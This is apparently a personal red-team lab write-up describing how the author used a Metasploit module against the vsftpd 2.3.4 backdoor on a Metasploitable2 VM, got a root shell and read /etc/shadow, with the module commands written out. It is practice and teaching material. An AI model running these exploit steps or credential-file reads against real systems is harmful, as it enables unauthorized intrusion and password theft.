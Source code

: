 
---

##  Lab03 – Exploiting FTP Backdoor (vsftpd 2.3.4)


# Lab03 – Exploiting FTP Backdoor (vsftpd 2.3.4)


##  Objective
Exploit a known backdoor vulnerability in the vsftpd 2.3.4 service to gain shell access.

---

##  Tools
- Metasploit Framework
- Kali Linux

---

##  Exploit Used
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
set RPORT 21
run
```

---

## Result
Successfully exploited vsftpd backdoor

Gained root shell on the target (Metasploitable2)

---

## What I Learned
Understood how to identify and target known CVEs

Practiced Metasploit module usage with precision

Experienced real-world post-exploitation workflow

===

## Screenshot

The following screenshot captures the successful execution of the vsftpd 2.3.4 backdoor exploit using Metasploit and resulting root shell access:

![vsftpd Exploit – Root Shell](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab3/Screen%20Shot%202025-05-23%20at%2020.28.34.png))

Verification of root access using basic system commands (`id`, `whoami`, `hostname`):

![Root Access Confirmed](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab3/Screen%20Shot%202025-05-23%20at%2020.29.13.png
))

As part of post-exploitation, we accessed `/etc/shadow` to demonstrate privilege level:

![Shadow File Access](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab3/Screen%20Shot%202025-05-23%20at%2020.31.44.png)



---

## Date
23 May 2025
